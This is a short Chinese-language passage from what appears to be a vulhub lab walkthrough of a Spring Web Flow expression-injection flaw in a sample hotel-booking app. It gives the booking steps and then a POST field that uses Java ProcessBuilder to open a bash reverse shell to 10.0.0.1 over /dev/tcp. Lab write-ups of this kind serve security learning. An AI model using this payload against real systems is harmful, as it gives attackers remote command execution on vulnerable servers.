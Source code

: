 1. 然后访问id为1的酒店`http://192.168.1.10:8080/hotels/1`，点击预订按钮“Book Hotel”，填写相关信息后点击“Process”（从这一步，其实WebFlow就正式开始了）：

![img](assets/1669937254772-381349f0-e4db-4252-ab94-008f9bdacaee.png)

\3. 再点击确认“Confirm”， 此时抓包，抓到一个POST数据包，我们向其中添加一个字段（也就是反弹shell的POC）：  

```python
_(new java.lang.ProcessBuilder("bash","-c","bash -i >& /dev/tcp/10.0.0.1/21 0>&1")).start()=vulhub
```

对&符号进行url编码
